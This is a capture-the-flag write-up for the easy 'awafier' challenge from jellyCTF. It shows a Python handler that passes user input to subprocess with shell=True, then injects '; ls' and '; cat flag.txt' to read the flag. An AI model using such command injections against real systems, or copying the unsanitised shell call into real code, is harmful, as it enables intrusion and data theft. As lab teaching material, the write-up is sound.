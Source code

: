 # awafier
Writeup author: **taodragon_**

Point count: 100pts

Difficulty: easy

Provided files: awafier.zip

Url: https://awafy-me.jellyc.tf/

Description:
> Hacked this together for Jelly's mutually beneficial partnership application
#

There is a text box, so it should be sanitized, right?

```
if user_input:
        try:
            result = subprocess.check_output("python3 ./awafier.py " + user_input, shell=True)
            result = result.decode()
        except:
            result = "Error processing input"
    else:
        result = ""
```

The text box is not sanitized, and runs `python3 ./awafier.py {user_input}` in a shell. We can try sending `; ls`, and we get

```
Dockerfile
awafier.py
awafier_maps.py
flag.txt
main.py
requirements.txt
wrapper.py
```

which confirms the exploit. We can send `; cat flag.txt` to get the flag.

Flag: `jellyCTF{c3rt1fied_aw4t15tic}`

